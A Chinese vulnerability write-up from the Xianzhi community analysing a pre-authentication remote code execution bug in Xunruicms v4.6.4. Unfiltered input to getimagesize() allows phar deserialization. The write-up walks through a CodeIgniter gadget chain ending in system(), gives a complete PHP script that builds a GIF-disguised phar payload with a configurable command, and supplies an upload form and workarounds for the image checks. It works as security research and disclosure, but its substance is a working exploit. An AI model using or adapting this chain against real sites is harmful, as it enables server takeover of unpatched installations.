# 【代码审计】Xunruicms前台RCE-先知社区

> **来源**: https://xz.aliyun.com/news/18215  
> **文章ID**: 18215

---

​

# Xunruicms前台RCE

测试环境：phpstudy 7.3.4 + windows + Xunruicms v4.6.4  
Xunruicms存在一个前台RCE漏洞，这个漏洞在之前很多版本也存在，最新版已修复，漏洞位于dayrui/Fcms/Control/Api/Api.php，是一个前台可访问的方法  
我们看这个$thumb参数这里



是由于get方法来接受get参数的，会进行XSS的过滤



如下，但是这并不影响本次漏洞



关注到73行这里，getimagesize，这个参数是可以触发phar协议的，进而可以导致phar反序列化RCE  
$img = getimagesize($thumb);



到这里$thumb，除了上面的xss \_clean的方法过滤XSS以外，没有任何过滤的地方，也不会对我们的phar协议进行过滤所以不影响  
不过注意到这里的if语句，如果不符合输入条件是会直接exit的  
这段代码实际上我感觉存在一个逻辑上的问题。strpos($thumb, 'https://') !== false 表示 $thumb 包含 https://，而 strpos($thumb, 'http://') !== false 表示 $thumb 包含 http://。由于 https:// 和 http:// 两者是互斥的，不可能同时存在于一个 URL 中，因此这两个条件的同时成立是无法出现的。  
strpos($thumb, '/') !== false 检查 $thumb 是否包含 /，通常 URL 中都会包含/来区分域名和路径，这倒是很正常

```
if (strpos($thumb, 'https://') !== false
    && strpos($thumb, '/') !== false
    && strpos($thumb, 'http://') !== false) {
    exit(图片地址不规范);
}
```

所以这里对于phar://xxx之类的输入数据，不会进入到这个if语句，所以也就不用担心exit，那么现在知道了此处是存在反序列化漏洞的，接下来需要找一个链  
之前看到网上爆出了一些Xunrui的任意文件删除的链，不能进行RCE，遂自己尝试去找找能触发RCE的反序列化的链，后面找到了一条能直接执行命令的链，还有一条文件写入的链，但是文件写入的链对于当前的漏洞环境有些地方需要绕过，这里我先介绍执行命令的链

# RCE链

为了不拐弯抹角的讲解，我就直接忽略了中间找其他链条的思路和试错过程了，直接说一条成功的链

我们首先找\_\_destruct函数，这里$this->redis可控，这里选择找一个调用了close方法的地方



$this->memcached和$this->lockKey都是可控的，那么这里就可以调用到某个类的delete方法了



这里找到了,这里$this->tempAllowCallbacks可控，跟进trigger方法



这个方法可以通过控制$this->{$event}的值来调用本类的某个方法，那么我们就看本类中有没有比较好利用的一些方法



找了一圈，看了下validate这个方法，看看里面的这个run方法，注意这里的$dbGroup我们是可控的



注意上面$this->cleanValidationRules要控制为false,否则会进入cleanValidationRules,会对值有影响，避免最后直接返回 true了进入不到run方法中



这个run方法里面，$this->rules也可控，所以这里foreach的$rField和$rSetup都变得可控，$rules的值为$rSetup，也可控





这里还有个$value是后面比较关键的

$value = dot\_array\_search($rField, $data);

dot\_array\_search方法如下，又调用了\_array\_search\_dot,$segments是$index处理分割后的产物，但是我们传入的数据不会满足分隔条件，还是把$segments当做$index就行

```
function dot_array_search(string $index, array $array)
    {
       $segments = explode('.', rtrim(rtrim($index, '* '), '.'));
       return _array_search_dot($segments, $array);
    }
}
```

跟进\_array\_search\_dot，最后的结果其实都是返回一个数组



这是个什么数组呢，我们看前面第一行，$currentIndex就是$indexes，那么可以理解为返回了$array[$indexes];，所以这里如果要控制返回的值，那么传入的第一个参数必须在$arrary这个数组里面，并且这个数组中的这个值必须可控



那么我们可以关心一下$array里面是个什么玩意，不用担心$indexes的值，因为它是可控的，就是最初说的$rField，既然这样，我们只需要找$array有哪些值可控，如果A可控，那么我们就把$indexes的值控制为A，这样返回的$array[A]就是可控的，$value的值也就可控了，这样说可能比较好理解,我们可以看到$array其实就是 dot\_array\_search($rField, $data);传进去的$data，而这个$data刚好够给面子，在run方法中把DBGroup加入数组了，而我们之前提过一个“$this->DBGroup”我们是可控的，那么这里也就满足了$data['DBGroup']可控



所以这里我们只需要把$indexes的值控制为DBGroup就行了，也就是$rField的值控制为DBGroup，这就实现了$value的值可控  
现在，run方法里面，$rField和$rSetup可控，$rules的可控,$value可控，带着这些条件我们进入processRules



processRules的这个地方，就可以通过控制好值来执行命令了，$rules的值控制为system，$value的值为calc



POC以及复现过程

```
<?php
namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;

    class RedisHandler {
        protected $redis;

        public function __construct(MemcachedHandler $memcachedHandler) {
            $this->redis = $memcachedHandler;
        }
    }
}

namespace CodeIgniter\Session\Handlers {

    use CodeIgniter\Model;
    use CodeIgniter\Validation\Validation;

    class MemcachedHandler {
        protected $memcached;
        public $lockKey;

        public function __construct($lockKey = '123', Model $model = null) {
            $this->lockKey = $lockKey;
            $this->memcached = $model ?: new Model(new Validation());
        }
    }
}

namespace CodeIgniter {

    use CodeIgniter\Validation\Validation;

    abstract class BaseModel {
    }

    class Model extends BaseModel {
        public $validation;
        public $tempAllowCallbacks;
        public $beforeDelete;
        public $validationRules;
        public $cleanValidationRules;
        public $DBGroup;

        public function __construct(Validation $validation,$cmd = 'calc') {  //这里控制执行的命令
            $this->validation = $validation;
            $this->tempAllowCallbacks = true;
            $this->beforeDelete = ['abc' => 'validate'];
            $this->validationRules = 'rules';
            $this->DBGroup = $cmd;
            $this->cleanValidationRules = false;
        }
    }
}

namespace CodeIgniter\Validation {
    class Validation {
        protected $config;
        protected $rules = [];
        protected $ruleSetFiles;

        public function __construct() {
            $this->config = $this;
            $this->rules = ['DBGroup' => 'system'];
            $this->ruleSetFiles = [0 => 'stdClass'];
        }
    }
}

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;
    use CodeIgniter\Session\Handlers\MemcachedHandler;

    $memcachedHandler = new MemcachedHandler();
    $redisHandler = new RedisHandler($memcachedHandler);

    $phar = new Phar("shell.phar"); //生成phar文件
    $phar->startBuffering();
    $phar->setStub("GIF89a"." __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($redisHandler); 
    $phar->addFromString("test.txt", "test"); 
    $phar->stopBuffering();
    //print_r(urlencode(serialize($o)));
}
```

前台注册上传头像



弹出计算器



前台上传图片的时候有坑点，Xunrui会对图片内容等进行检测，是否包含php字眼，是否符合图片等，否则会出现图片不合规等提示，这个时候得使用gif文件头生成phar文件，而且如果直接点击功能点上传头像，会出现内容少1kb等内容不全问题，导致无法触发反序列化，这里暂且先不分析具体原因了，所以这里根据代码提供另一种上传方式，有兴趣的可以跟一下原因，表单如下，可以无损上传，可以避免上述问题

```
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传表单</title>
</head>
<body>

<h2>上传头像，记得数据包加上cookie</h2>

<form action="http://127.0.0.1:8053/index.php?s=member&c=account&m=avatar&r=8556" method="POST" enctype="multipart/form-data">
    <label for="avatar">选择头像：</label>
    <input type="file" id="avatar" name="file" accept="image/*" required><br><br>

    <input type="hidden" name="is_form" value="1">
    <input type="hidden" name="is_admin" value="0">
    <input type="hidden" name="csrf_test_name" value="f9f22ab742616dfe9729f87c41689490">

    <button type="submit">上传文件</button>
</form>

</body>
</html>
```

还有个问题是，如果出现第一次能触发，发送第二次数据包发现不能触发（500状态码就是触发了，200没有）



这是因为产生了缓存文件，它自动帮你生成了一个二维码文件



所以就直接进入了if语句，那么这里你就会提问了，我再上传一个图片不就行了？但是上传的图片都会被命名为当前uid.png，没必要太麻烦。其实我们可以看到这个文件是跟根据get请求的这四个值来生成的，那么只需要改一下get参数中其他的值就行了



再次触发



**免责声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。红细胞安全实验室拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容， 不得以任何方式将其用于商业目的。

**文末福利**

团队官网：https://redcellsec.cn/，现在我们已经建立了红细胞安全实验室技术交流群，希望各位师傅能积极交流、一起学习，共同营造网络安全良好技术氛围，目前星球是完全免费的，旨在技术交流分享，目前群聊大于200人无法再通过二维码加入交流群，想加入技术交流群的师傅可以通过公众号后台获取邀请链接，进入群聊后私信群主或者其他师傅加入星球交流，后续会不定期在星球内部或公众号上分享一些实战干货或者实用的工具以及资讯，希望能看到更多师傅们一起来交流行业前沿技术！
